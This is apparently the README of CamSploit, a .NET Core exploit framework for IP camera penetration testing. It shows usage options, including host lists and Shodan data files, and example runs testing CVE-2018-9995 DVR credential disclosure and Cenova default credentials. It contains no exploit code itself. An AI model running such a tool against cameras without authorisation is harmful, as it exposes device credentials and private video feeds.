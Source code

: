 ![alt tag](https://raw.githubusercontent.com/maxpowersi/CamSploit/master/Resources/icon.png)
# CamSploit v1.0.1
CamSploit is an exploiting tool that helps in the IP camera pentest. It was developed using Dot Net Core (compatible with Windows and Linux), tested in windows 10 and Ubuntu 16. It has got a modular collection of exploits. You can create your own modules to expands the currents exploits. CamSploit is distributed under the GNU GPLv3 license. In the next weeks, it will be added more than 10 exploits.
## Usage
```
dotnet CamSploit.dll --help
CamSploit 1.0.1
Copyright (C) 2018 CamSploit
ERROR(S):
Required option 'rhost' is missing.
Required option 'rhost-list' is missing.
Required option 'rhost-shodan-file' is missing.
Required option 'show-exploit' is missing.

  --rhost                Required. Single host in format IP:Port, example 192.168.0.1:80

  --rhost-list           Required. Text file with one single full host (IP:Port) per line.

  --rhost-shodan-file    Required. JSON Shodan data file, example: data.json

  --show-exploit         Required. Show all exploits in the application or the description of one exploit.

  --output               (Default: output.camsploit.txt) Output file (it is optional).

  --exploits             List of exploits separated by spaces, example CVE_2018_9995 Default_Password_CeNova

  --help                 Display this help screen.

  --version              Display version information.

```
## Example
```
dotnet CamSploit.dll  --show-exploit  ALL
CVE-2018-9995
Cenova_Default_Credentials

dotnet CamSploit.dll  --show-exploit  CVE-2018-9995
CVE-2018-9995: Gets DVR Credentials in many vendors that responds using the banner 'Server: GNU rsp/1.0'

dotnet CamSploit.dll  --rhost  192.168.0.1:8080
Testing CVE-2018-9995 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is not vulnerable or it is not available for the CVE-2018-9995
Testing Cenova_Default_Credentials for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is not vulnerable or it is not available for the Cenova_Default_Credentials

dotnet CamSploit.dll  --rhost  192.168.0.1:8080 --exploits CVE-2018-9995
Testing CVE-2018-9995 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is not vulnerable or it is not available for the CVE-2018-9995

dotnet CamSploit.dll  --rhost  192.168.0.1:8080 --exploits CVE-2018-9995,Cenova_Default_Credentials --output "result.txt"
Testing CVE-2018-9995 for Cam 192.168.0.1:8080
The Cam 192.168.0.1:8080 is not vulnerable or it is not available for the CVE-2018-9995
Testing CVE-2018-9995 for Cam 192.168.0.1:8080Testing Cenova_Default_Credentials for Cam 192.168.0.1:8080The Cam 192.168.0.1:8080 is not vulnerable or it is not available for the Cenova_Default_Credentials
```